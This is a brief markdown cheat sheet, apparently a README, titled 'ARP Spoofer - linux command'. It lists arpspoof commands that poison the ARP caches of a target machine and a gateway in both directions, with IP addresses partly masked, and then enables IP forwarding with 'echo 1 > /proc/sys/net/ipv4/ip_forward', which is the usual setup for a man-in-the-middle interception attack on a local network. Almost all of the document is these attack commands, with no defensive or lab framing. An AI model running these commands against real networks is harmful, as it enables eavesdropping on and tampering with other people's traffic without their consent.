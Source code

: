 # ARP Spoofer - linux command

arpspoof -i eth0 -t 192.168.---.- 192.168.---.-

Target IP. Router can be a target machine.

> arpspoof -i <interface> -t <target> <gateway>
> arpspoof -i <interface> -t <gateway> <target>


Enable Port Forwarding:
echo 1 > /proc/sys/net/ipv4/ip_forward